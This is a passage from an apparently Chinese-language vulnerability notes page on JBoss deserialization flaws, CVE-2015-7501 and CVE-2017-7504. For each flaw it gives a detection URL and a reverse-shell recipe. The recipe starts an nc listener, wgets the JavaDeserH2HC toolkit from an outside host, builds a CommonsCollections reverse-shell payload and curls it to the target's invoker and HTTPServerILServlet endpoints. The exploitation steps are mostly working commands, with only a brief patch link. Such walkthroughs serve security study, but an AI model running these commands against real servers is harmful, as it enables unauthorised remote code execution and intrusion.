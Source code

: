 ![image-20200702122358123](/images/Jboss/image-20200702122358123.png)

2、反弹shell

```shell
# nc -lvnp 5555(攻击主机执行监听)
//攻击主机目录下下载
# wget http://scan.javasec.cn/java/JavaDeserH2HC.zip
# unzip JavaDeserH2HC.zip
# cd JavaDeserH2HC(以下命令均在攻击主机目录下执行，执行java生成序列化数据)
# javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
# java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap 172.16.144.157:5555				(攻击主机及端口号)
# curl http://172.16.144.157:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

![image-20200702134459047](/images/Jboss/image-20200702134459047.png)

##### 漏洞修复

1、[补丁](https://access.redhat.com/security/cve/cve-2015-7501)

#### CVE-2017-7504

##### 漏洞描述

JBoss AS 4.x及之前版本中，JbossMQ实现过程的`JMS over HTTP Invocation Layer`的
HTTPServerILServlet.java⽂件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利⽤
该漏洞执⾏任意代码。

##### 影响范围

JBoss AS 4.x之前版本

##### 漏洞原理

JBoss AS 4.x及之前版本中，JbossMQ实现过程的`JMS over HTTP Invocation Layer`的
HTTPServerILServlet.java⽂件存在反序列化漏洞。

##### 漏洞检测

1、PoC

访问域名，如出现以下返回可能存在漏洞。

```
172.16.144.157:8080/jbossmq-httpil/HTTPServerILServlet
```

![image-20200702140433362](/images/Jboss/image-20200702140433362.png)

2、反弹shell

```shell
# nc -lvnp 6666(攻击主机执行监听)
//攻击主机目录下下载
# wget http://scan.javasec.cn/java/JavaDeserH2HC.zip
# unzip JavaDeserH2HC.zip
# cd JavaDeserH2HC(以下命令均在攻击主机目录下执行，执行java生成序列化数据)
# javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
# java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap 172.16.144.157:6666				(攻击主机及端口号)
# curl http://172.16.144.157:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```
